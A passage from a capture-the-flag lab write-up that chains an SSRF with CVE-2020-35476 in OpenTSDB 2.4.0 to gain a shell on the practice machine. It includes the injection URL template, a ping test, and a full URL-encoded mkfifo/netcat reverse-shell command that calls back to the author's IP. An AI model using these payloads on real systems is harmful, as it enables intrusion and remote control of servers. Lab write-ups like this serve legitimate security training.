 It is OpenTSDB from what it seems, a time series database written in Java. On the API documentation, there is a [page](http://opentsdb.net/docs/build/html/api_http/version.html) about an endpoint that displays the version: `/api/version`. Loading this through our SSRF, the following response comes back:
```
{"short_revision":"14ab3ef","repo":"/home/hobbes/OFFICIAL/build","host":"clhbase","version":"2.4.0","full_revision":"14ab3ef8a865816cf920aa69f2e019b7261a7847","repo_status":"MI  
NT","user":"hobbes","branch":"master","timestamp":"1545014415"}
```

OpenTSDB 2.4.0 is installed on the server, and there is a user `hobbes` too; could be useful later. Searching this version online, results return for CVE-2020-35476, a remote execution vulnerability through one of the graphing parameters. Details and instructions on how to perform the exploit are [here](https://github.com/vulhub/vulhub/blob/master/opentsdb/CVE-2020-35476/README.md). First, we need a metric to graph statistics on. Sending a request to `/api/suggest?type=metrics&q=&max=10` will (hopefully) find us at least one; spoiler alert, it does.
```
["http.stats.web.hits"]
```

Then, we have to make a GET request in this form:
```
q?start=2000/10/21-00:00:00&m=sum:<stat>&o=&ylabel=&xrange=10:10&yrange=[0:system(%27<url encoded command>%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

To test out the exploit, I'll send the command `ping -c 1 <IP>` and keep track of pings sent to my machine with `tcpdump -i tun0 icmp`. The full request URI is right here:
```
http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&m=sum:<stat>&o=&ylabel=&xrange=10:10&yrange=[0:system(%27ping%20-c%201%2010.10.14.12%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Less than a second later, our tcpdump reports a hit!
```
17:54:38.117985 IP admirer-gallery.htb > TRYHARDER: ICMP echo request, id 3257, seq 1, length 64  
17:54:38.118014 IP TRYHARDER > admirer-gallery.htb: ICMP echo reply, id 3257, seq 1, length 64
```

Now, it's a matter of the classic mkfifo reverse shell command (plus netcat).
```
sudo python3 CVE-2021-21311.py --host 10.10.14.12 --url http://db.admirer-gallery.htb --redirect 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&  
m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[0:system(%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.12%209999%20  
%3E%2Ftmp%2Ff%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Above is the final exploit command I ran to obtain the shell. Replace the IP and port accordingly.

### User

From the prompt, we can see that we're logged in as the OpenTSDB user at the moment:
```
opentsdb@admirertoo:/$
```
